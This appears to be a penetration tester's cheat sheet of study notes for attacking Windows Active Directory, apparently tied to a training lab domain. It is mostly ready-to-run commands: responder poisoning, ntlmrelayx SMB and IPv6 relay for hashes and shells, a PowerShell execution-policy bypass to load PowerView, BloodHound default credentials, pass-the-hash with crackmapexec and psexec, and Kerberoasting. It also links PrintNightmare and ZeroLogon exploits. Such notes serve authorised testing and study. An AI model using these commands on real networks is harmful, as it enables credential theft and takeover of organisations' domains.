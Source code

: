 Attacking AD
LLMNR NBT-NS
Run responder at the beginning of the day

# responder -I eth1 -dwv 

SMB Relay
Sweep the network in the morning for smb

# nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -v
# nmap --script=smb2-security-mode.nse -p445 10.200.200.0/24 -v

For SMB Relay, look for “Message signing enabled but not required” from nmap scan

Create a targets.txt from the IPs with  “Message signing enabled but not required” 

Run this to get the hashes
# ntlmrelayx.py -tf targets.txt -smb2support

Run this to create a shell
# ntlmrelayx.py -tf targets.txt -smb2support -i

Listen for the shell
# nc 127.0.0.1 <port number>

Alternative to gaining shell
Use metasploit: look for
psexec
psexec_psh 

Or use impacket scripts
smbexec.py
# smbexec.py <domain>/<user>:<password>@<ip>
wmiexec.py
# wmiexec.py <domain>/<user>:<password>@<ip>
psexec.py
# psexec.py <domain>/<user>:<password>@<ip>

IPv6 Attacks
Start mitm6
# mitm6 -d <domain> -i eth1
# ntlmrelayx.py -6 -t ldaps://<server ip> -wh fakewpad.<domain> -l lootme 


Post-Compromise Enumeration
Powerview
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Bypass execution prevention 
> powershell -ep bypass
> . .\PowerView.ps1

Useful Commands
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
> Get-NetDomain
> Get-NetDomainController
> Get-DomainPolicy
> (Get-DomainPolicy)."SystemAccess"
> Get-NetUser | select cn
> Get-NetUser | select samaccountname
> Get-NetUser | select description
> Get-NetComputer
> Invoke-ShareFinder
> Get-NetGPO | select displayname, whenchanged

Bloodhound
# apt install bloodhound
# sudo neo4j console
http://localhost:7474/browser/
neo4j:neo4j
Search for sharphound

> Invoke-BloodHound -CollectionMethod All -Domain Marvel.local -ZipFileName file.zip

Pass the Hash / Pass the Password
need credential first
username and password or
shell on machine
 
Pass the Password / Pass the Hash
crackmapexec smb <ip/CIDR> -u <user> -H <last part of NTLM hash> --local-auth
crackmapexec smb <ip/CIDR> -u  <user> -d <domain> -p <password>
crackmapexec smb <ip/CIDR> -u  <user> -d <domain> -p <password> --sam
psexec.py <user>:@<ip> -hashes <NTLM hash>

Kerberoasting
# GetUserSPNs.py <domain>/<user>:<password> -dc-ip <server ip> -request

GPP Attack
 
Links
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share
https://github.com/cube0x0/CVE-2021-1675

URL File Attacks
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share![image](https://user-images.githubusercontent.com/77715808/202856425-18e76cdd-e59f-41a9-a436-764b6ce0b6e2.png)

PrintNightmare (CVE-2021-1675)![image](https://user-images.githubusercontent.com/77715808/202856407-098521b8-3c5b-4cc0-945f-d923b7711098.png)
cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675
calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675

What is ZeroLogon? - https://www.trendmicro.com/en_us/what-is/zerologon.ht
dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472
SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472![image](https://user-images.githubusercontent.com/77715808/202856362-66ba1dfb-0eb0-467a-826c-4f6cbdb1317d.png)
